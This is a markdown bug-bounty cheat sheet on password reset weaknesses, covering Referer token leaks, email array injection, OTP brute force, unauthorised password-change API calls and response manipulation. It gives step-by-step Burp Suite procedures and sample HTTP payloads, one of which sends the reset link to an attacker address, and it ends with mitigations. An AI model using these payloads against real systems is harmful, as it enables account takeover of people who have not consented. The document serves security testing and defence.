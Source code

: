 # 🔒 Common Security Flaws in Password Reset Functionality

*A comprehensive compilation of password reset vulnerabilities from Twitter, bug bounty writeups, and disclosed security reports.*

---

## 1. 🔗 Password Reset Token Leak Via Referrer

### Overview
The HTTP Referer header is an optional HTTP header field that identifies the address of the webpage which linked to the resource being requested. This header contains the address of the previous web page from which a link to the currently requested page was followed.

### 🎯 Exploitation Steps
1. **Request password reset** to your email address
2. **Click on the password reset link** received in email
3. **Don't change the password** - leave the reset page open
4. **Click any 3rd party websites** (e.g., Facebook, Twitter) from the reset page
5. **Intercept the request** in Burp Suite proxy
6. **Check if the Referer header** is leaking the password reset token

### ⚠️ Impact
Token exposure through referrer headers can lead to account takeover if malicious third-party sites capture these tokens.

---

## 2. 📧 Array Injection in Email Parameter

### Overview
This vulnerability occurs when the application accepts an array of email addresses instead of a single email address for password reset requests, potentially sending reset links to multiple recipients including attackers.

### 🎯 Exploitation Example

**Original Request:**
```http
POST https://example.com/api/v1/password_reset HTTP/1.1
Content-Type: application/json

{"email_address":"victim@gmail.com"}
```

**Modified Request:**
```http
POST https://example.com/api/v1/password_reset HTTP/1.1
Content-Type: application/json

{"email_address":["victim@breadcrumb.com","attacker@evil.com"]}
```

### ⚠️ Impact
The password reset link gets sent to both the victim and the attacker, enabling **Full Account Takeover**.

---

## 3. 🔢 OTP Brute Force Attack

### Overview
When password reset functionality relies on OTP (One-Time Password) validation without proper rate limiting, attackers can brute force the OTP to gain unauthorized access.

### 🎯 Exploitation Steps
1. **Start Burp Suite** and intercept the password reset request
2. **Send the request to Intruder**
3. **Configure payload positions** for the OTP field
4. **Use number payload** (000000-999999 for 6-digit OTP)
5. **Launch the attack** to brute force valid OTP

### ⚠️ Impact
Successful OTP brute force can lead to unauthorized password reset and complete account compromise.

---

## 4. 🔄 Account Takeover via API Parameter Manipulation

### Overview
This vulnerability occurs when change password API endpoints don't properly validate user authorization, allowing attackers to change passwords for arbitrary users by manipulating email parameters.

### 🎯 Exploitation Steps
1. **Login with attacker account** and navigate to change password function
2. **Start Burp Suite** and intercept the password change request
3. **Send request to Repeater** and modify the email parameter to target victim
4. **Execute the request** with victim's email and attacker's chosen password

**Example Request:**
```http
POST /api/changepass HTTP/1.1
Content-Type: application/json

{
  "email": "victim@email.tld",
  "password": "attackerPassword123"
}
```

### ⚠️ Impact
Direct account takeover by changing victim's password without authorization.

---

## 5. 🔀 Response Manipulation Bypass

### Overview
Some applications rely solely on client-side response validation, allowing attackers to manipulate error responses to bypass security controls.

### 🎯 Exploitation Technique

**Original Response:**
```http
HTTP/1.1 401 Unauthorized
Content-Type: application/json

{
  "message": "unsuccessful",
  "statusCode": 403,
  "errorDescription": "Unsuccessful"
}
```

**Modified Response:**
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "message": "success",
  "statusCode": 200,
  "errorDescription": "Success"
}
```

### ⚠️ Impact
Bypasses client-side validation and may grant unauthorized access to password reset functionality.

---

## 🛡️ Mitigation Strategies

- **Implement proper rate limiting** for OTP attempts
- **Use secure token generation** with sufficient entropy
- **Validate user authorization** before allowing password changes
- **Implement server-side validation** instead of relying on client responses
- **Sanitize and validate** all input parameters including arrays
- **Use secure referrer policies** to prevent token leakage

---

## 📚 Additional Resources

For more detailed analysis and real-world examples, check out this comprehensive blog post: 
**[Hunting for Bugs in Password Reset Feature - 2021](https://sm4rty.medium.com/hunting-for-bugs-in-password-reset-feature-2021-3def1b391bef)**

---

*Happy Bug Hunting! 🐛🔍*
